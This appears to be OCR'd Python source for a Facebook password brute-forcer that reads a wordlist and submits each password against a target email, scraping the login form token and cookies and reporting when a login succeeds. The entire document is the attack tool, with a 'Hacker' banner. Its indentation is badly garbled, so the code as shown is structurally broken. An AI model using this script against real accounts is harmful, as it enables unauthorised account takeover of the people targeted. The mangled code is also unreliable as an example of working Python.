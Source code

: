 

import requests
import threading
# import urllib.request
# import os
from bs4 import BeautifulSoup
import sys

if sys.version_info[0] !=3: 
	print('''--------------------------------------
	REQUIRED PYTHON 3.x
	use: python3 fb.py
	--------------------------------------
	''')
	sys.exit()
	
	post_url='https://www.facebook.com/login.php'
	headers = {
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36',
	}
	payload={}
	cookie={}
	
	def create_form():
	form=dict()
		cookie={'fr':'0ZvhC3YwYm63ZZat1..Ba0Ipu.Io.AAA.0.0.Ba0Ipu.AWUPqDLy'}
		
		data=requests.get(post_url,headers=headers)
		for i in data.cookies:
			cookie[i.name]=i.value
			data=BeautifulSoup(data.text,'html.parser').form
			if data.input['name']=='lsd':
				form['lsd']=data.input['value']
					return (form,cookie)
					
					def function(email,passw,i):
					global payload,cookie
					if i%10==1:
						payload,cookie=create_form()
						payload['email']=email
						payload['pass']=passw
						r=requests.post(post_url,data=payload,cookies=cookie,headers=headers)
						if 'Find Friends' in r.text or 'Two-factor authentication required' in r.text:
							open('temp','w').write(str(r.content))
							print('\npassword is : ',passw)
							return True
							return False
							
							print('\n---------- Welcome To David Pradana Hacker----------\n')
							file=open('passwords.txt','r')
							
							email=input('Enter Email/Username : ')
							
							print("\nTarget Email ID : ",email)
							print("\nTrying Passwords from list ...")
							
							i=0
							while file:
								passw=file.readline().strip()
								i+=1
								if len(passw) < 6:
									continue
									print(str(i) +" : ",passw)
									if function(email,passw,i):
										break

